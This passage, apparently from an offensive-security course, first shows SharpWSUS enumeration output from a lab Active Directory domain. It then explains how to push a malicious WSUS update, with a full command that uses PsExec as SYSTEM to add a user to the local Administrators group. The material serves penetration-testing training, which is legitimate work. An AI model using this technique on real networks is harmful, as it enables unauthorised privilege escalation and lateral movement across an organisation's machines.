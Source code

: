 [*] Action: Inspect WSUS Server

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
WSUS, 8530, C:\WSUS\WsusContent


####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
sccm.inlanefreight.local, 172.20.0.25, 10.0.17763.2510, 6/26/2024 12:14:15 PM
dc01.inlanefreight.local, 172.20.0.10, 10.0.17763.2510,
srv01.inlanefreight.local, 172.20.0.51, 10.0.17763.2510,

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Make sure to execute <code>PowerShell.exe</code> as Administrator.</p>
</div>
</div>
<h2>Lateral Movement From Windows</h2>
<p>Once we have access to an account with rights on the <code>WSUS server</code>, either a member of the <code>Administrators</code> or <code>WSUS Administrators</code>, our task is to create a patch that will give us command execution on the target machine. Let's use the capabilities of <code>SharpWSUS</code>, while explaining each step and technique used.</p>
<h3>Create a malicious patch</h3>
<p>WSUS is restricted to executing only Microsoft-signed binaries. To craft genuine-looking but malicious patch, we will utilize <a href="https://learn.microsoft.com/en-us/sysinternals/downloads/psexec">PSExec</a> from <a href="https://download.sysinternals.com/files/SysinternalsSuite.zip">Sysinternals</a>, a signed Microsoft binary that allows us to execute commands. We have the binary located at <code>C:\Tools\sysinternals\PSExec64.exe</code>.</p>
<p>To create a new windows update or malicious patch, we will use <code>SharpWSUS.exe create</code> as Administrator. We must specify the binary path to execute <code>/payload:&lt;Path to binary&gt;</code>, define the arguments for the payload with the option <code>/args</code> and optionally set the update title <code>/title:&lt;Update Title&gt;</code>.</p>
<p>To get command execution with <code>PSExec</code>, we will add our account <code>Filiplain</code> to the Administrators group. To do that, we will use the following PSExec arguments. First we set <code>-accepteula</code> to avoid pop-ups, <code>-s</code> to run as system, <code>-d</code> to return immediately and the command to execute <code>net localgroup Administrators filiplain /add</code>:</p>
<pre><code class="language-powershell-session">c:\Tools&gt; .\SharpWSUS.exe create /payload:"C:\Tools\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators filiplain /add" /title:"NewAccountUpdate"

